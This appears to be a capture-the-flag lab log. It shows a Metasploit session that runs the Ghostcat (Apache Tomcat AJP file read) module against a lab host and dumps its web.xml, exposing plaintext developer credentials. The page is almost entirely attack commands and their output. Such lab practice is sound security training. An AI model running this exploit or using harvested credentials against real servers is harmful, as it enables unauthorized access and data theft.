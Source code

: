 <br>

```bash
msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

msf6 > use 0
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 10.201.69.245
RHOSTS => 10.201.69.245
msf6 auxiliary(admin/http/tomcat_ghostcat) > set Verbose True
Verbose => true
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.201.69.245
<?xml version="1.0" encoding="UTF-8"?>

<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>VulnNet Entertainment</display-name>
  <description>
     VulnNet Dev Regulations - mandatory
 
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:
 
    webdev:Hgj3LA$02D$Fa@21
 
GUI access is disabled for security reasons.
 
4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>

</web-app>
[+] 10.201.69.245:8009 - File contents save to: /root/.msf4/loot/20250812181338_default_10.201.69.245_WEBINFweb.xml_200413.txt
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/tomcat_ghostcat) > 
```
